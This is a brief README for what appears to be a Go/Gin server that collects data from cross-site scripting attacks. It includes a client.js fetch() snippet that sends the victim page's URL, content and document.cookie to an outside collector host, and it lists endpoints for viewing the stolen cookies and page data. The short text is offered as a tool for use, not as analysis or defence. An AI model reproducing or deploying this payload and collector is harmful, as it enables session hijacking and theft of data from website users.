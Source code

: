### XSS Handling
template Gin to routing js file handling

1. Enable sqlite3
```
apt-get install sqlite3
```

2. Have file client.js to handle xss

Here u post data with fetch like
```
fetch("https://xxx/content", {
					body: "url=" + x + "&content=" + x+ "&cookie:"+document.cookie,
					headers: {
						"Content-Type": "application/x-www-form-urlencoded"
					},
					method: "POST"
				})
```
3. Access API to check
```
https://x/print/locations -> all localtions
https://x/print/content?location=???? -> data content and cookie of localtion
```

### How to use
```
xss.Run("client.js")
```
